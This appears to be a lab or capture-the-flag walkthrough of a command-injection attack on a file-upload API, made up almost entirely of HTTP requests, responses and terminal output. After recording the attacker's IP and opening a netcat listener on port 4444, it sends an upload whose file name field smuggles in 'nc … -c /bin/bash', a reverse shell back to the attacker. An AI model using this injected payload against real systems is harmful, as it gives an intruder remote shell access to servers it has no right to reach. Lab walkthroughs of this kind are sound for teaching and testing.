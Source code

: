 `HTTP Request`:
```http
POST /upload📌 HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt","data":"test\n"}📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:45:34 GMT

{"success": "File saved successfully!"}📌
```

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.231.94.2📌 netmask 255.255.255.0  broadcast 192.231.94.255
        ether 02:42:c0:e7:5e:02  txqueuelen 0  (Ethernet)
        RX packets 133  bytes 568545 (555.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 116  bytes 12188 (11.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`nc -lnvp 4444`:
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /upload HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt; nc 192.231.94.2 4444 -c '/bin/bash'","data":"test\n"}📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
```